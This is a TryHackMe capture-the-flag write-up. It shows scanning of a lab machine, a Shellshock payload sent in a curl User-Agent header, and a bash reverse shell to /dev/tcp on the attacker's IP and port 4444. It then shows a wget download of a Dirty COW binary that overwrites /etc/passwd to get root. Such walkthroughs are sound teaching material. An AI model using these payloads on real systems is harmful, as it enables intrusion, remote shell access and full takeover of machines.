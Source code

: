 ```yaml
---
categories: [TryHackMe]
tags: [PrivEsc, ShellShock, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Turtle/front.png
  alt: Turtle TryHackMe Machine 💻 
---
```


## Port Scan Resutls ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ rustscan -t 5000 -a 10.10.106.27 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-''
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.106.27:22
Open 10.10.106.27:80
[~] Starting Script(s)
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

While doing directory traversal I got some directories like this →

```bash
301      GET        9l       28w      313c http://10.10.106.27/cgi-bin => http://10.10.106.27/cgi-bin/
301      GET        9l       28w      309c http://10.10.106.27/img => http://10.10.106.27/img/
200      GET        7l       11w      156c http://10.10.106.27/js/main.js
200      GET       78l      138w     1114c http://10.10.106.27/css/main.css
301      GET        9l       28w      313c http://10.10.106.27/uploads => http://10.10.106.27/uploads/
200      GET      423l     2430w   194997c http://10.10.106.27/img/avatar.png
200      GET       42l      136w     3025c http://10.10.106.27/
301      GET        9l       28w      311c http://10.10.106.27/admin => http://10.10.106.27/admin/
301      GET        9l       28w      309c http://10.10.106.27/css => http://10.10.106.27/css/
301      GET        9l       28w      308c http://10.10.106.27/js => http://10.10.106.27/js/
301      GET        9l       28w      312c http://10.10.106.27/backup => http://10.10.106.27/backup/
200      GET        1l        7w       38c http://10.10.106.27/robots.txt
301      GET        9l       28w      312c http://10.10.106.27/secret => http://10.10.106.27/secret/
```
{: .nolineno}
{: .nolineno}

Now I tried the shellshock vulnerability and I got a hit like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.106.27/cgi-bin/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}
{: .nolineno}

Now its time for the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.8.83.156/4444 0>&1'" http://10.10.106.27/cgi-bin/test.cgi
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Turtle/Untitled.png)

## SSH SHELL ⤵️

Now I directly checked its kernel version and it is way old →

```bash
www-data@ubuntu:/$ uname -an
uname -an
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}
{: .nolineno}

Now I will be using the dirtycow exploit over here for getting the root shell →

```bash
www-data@ubuntu:/tmp$ wget http://10.8.83.156/exploit_64
--2023-10-05 09:30:19--  http://10.8.83.156/exploit_64
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14368 (14K) [application/octet-stream]
Saving to: 'exploit_64'

 0% [                                       ] 0           --.-K100%[======================================>] 14,368      77.1KB/s   in 0.2s   

2023-10-05 09:30:19 (77.1 KB/s) - 'exploit_64' saved [14368/14368]

www-data@ubuntu:/tmp$ chmod +x *
www-data@ubuntu:/tmp$ ./exploit_64 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7fecff9ea000

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{FLAG is}
```
{: .nolineno}
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }